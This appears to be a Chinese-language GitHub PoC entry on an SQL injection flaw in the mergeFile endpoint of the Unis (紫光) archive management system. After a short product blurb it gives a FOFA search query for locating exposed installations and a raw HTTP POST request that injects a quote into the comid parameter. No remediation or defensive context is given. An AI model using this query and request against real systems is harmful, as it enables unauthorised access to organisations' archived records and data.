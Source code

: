 # 紫光档案管理系统mergeFile存在SQL注入漏洞
紫光电子档案管理系统是一款专业的电子档案管理软件，旨在帮助企业实现高效、便捷的档案管理。系统具有强大的文件存储、检索和共享功能，能够提供全面的档案管理解决方案。同时，紫光电子档案管理系统还拥有智能化的分类和归档功能，可以自动识别文件类型和属性，实现快速分类和高效管理。用户只需简单操作，就能轻松实现对各类电子档案的整理、查询和备份，极大提升了工作效率和信息安全性。紫光档案管理系统mergeFile存在SQL注入漏洞

## fofa
```javascript
app="紫光-档案管理系统" && body="www.unissoft.com"
```

## poc
```java
POST /Archive/ErecordManage/mergeFile HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Connection: close
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36

userID=admin&fondsid=1&comid=1'
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1731327037075-c9e88b13-b658-4e7e-b7ad-a6c7d12dca30.png)

